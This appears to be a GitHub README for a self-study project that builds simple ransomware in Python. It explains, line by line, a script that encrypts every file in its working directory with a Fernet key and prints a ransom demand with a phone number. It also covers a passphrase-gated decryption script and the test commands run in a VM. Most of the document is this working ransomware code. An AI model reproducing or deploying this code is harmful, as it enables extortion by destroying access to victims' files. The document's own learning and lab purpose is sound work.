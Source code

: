 # <span style="color:red">This text is red</span>
Ransomware

Ransomware deployment using Python scripting

## Objective

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

### Skills Learned


- Python scripting
- Cryptography
 

### Tools Used

- Python
- Linux VM  
- Fernet

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

ref:

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py" : (next line)continue(next line) files.append(file) // This is seperating our script files that are in the same directory from the file list we created earlier in the script.

print(files) // Will display the "files" list in the terminal.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: // sets script to write to "thefile".

thefile.write(contents_encrypted) // writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed

DECRYPT

![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

ref:

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password is entered correctly by the user, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key, this file is appended from the file list that becomes encrypted in our MALWARE.py script, 
if our encryption key got encrypted, it would be a messy situation.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and our message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

We then get a message thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.




 




with = resource management as = used along with to allocater where to input resources / for = loop

NO DROPPER

*Ref 1: Network Diagram*

